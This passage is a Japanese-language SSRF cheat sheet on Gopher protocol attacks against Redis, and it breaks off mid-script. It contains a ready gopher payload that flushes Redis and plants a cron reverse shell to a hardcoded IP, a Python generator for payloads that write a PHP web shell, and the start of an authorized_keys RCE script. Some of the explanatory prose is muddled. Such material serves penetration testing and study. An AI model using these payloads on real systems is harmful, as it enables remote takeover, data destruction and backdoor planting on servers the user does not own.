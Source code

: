 Gopherは、SSRF（サーバーサイドリクエストフォージェリ）の脆弱なプラットフォームの1つです。Gopherは、URLスキームを使用して情報を取得するため、SSRF攻撃の標的になりやすいです。Gopherプロトコルは、Gopherサーバーに接続してディレクトリリストやファイルの内容を取得するために使用されます。SSRF攻撃を実行するためには、Gopherスキームを使用して攻撃者が制御するサーバーにリクエストを送信する必要があります。これにより、攻撃者は内部ネットワークにアクセスし、機密情報を取得することができます。

以下は、Gopherプロトコルを使用してSSRF攻撃を実行するための例です。

```bash
curl gopher://attacker-server:70/_URL_
```

この例では、攻撃者はGopherスキームを使用して自分のサーバーにリクエストを送信しています。攻撃者は"_URL_"の部分を攻撃対象のURLに置き換えることで、攻撃対象のサーバーに対して任意のリクエストを送信することができます。

Gopherプロトコルを使用したSSRF攻撃は、脆弱なアプリケーションやサービスでよく見られます。攻撃者は、Gopherスキームを使用して攻撃対象のサーバーにリクエストを送信し、機密情報を取得することができます。したがって、アプリケーションやサービスの開発者は、Gopherプロトコルを適切に制御し、SSRF攻撃を防ぐための適切なセキュリティ対策を実装する必要があります。
```bash
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```
**RCEを介したシェルのアップロード（PHP）** - [Redis Getshellの概要](https://www.mdeditor.tw/pl/pBy0)
```python
#!/usr/bin/env python
# -*-coding:utf-8-*-

import urllib
protocol="gopher://"
ip="192.168.189.208"
port="6379"
shell="\n\n<?php phpinfo();?>\n\n"
filename="shell.php"
path="/var"
passwd=""

cmd=["flushall",
"set 1 {}".format(shell.replace(" ","${IFS}")),
"config set dir {}".format(path),
"config set dbfilename {}".format(filename),
"save"
]
if passwd:
cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
CRLF="\r\n"
redis_arr = arr.split(" ")
cmd=""
cmd+="*"+str(len(redis_arr))
for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF
return cmd

if __name__=="__main__":
for x in cmd:
payload += urllib.quote(redis_format(x))
print payload
```
**authorized\_keysを介したRCE** - [Redis Getshellの概要](https://www.mdeditor.tw/pl/pBy0)
```python
import urllib
protocol="gopher://"
ip="192.168.189.208"
port="6379"
# shell="\n\n<?php eval($_GET[\"cmd\"]);?>\n\n"
```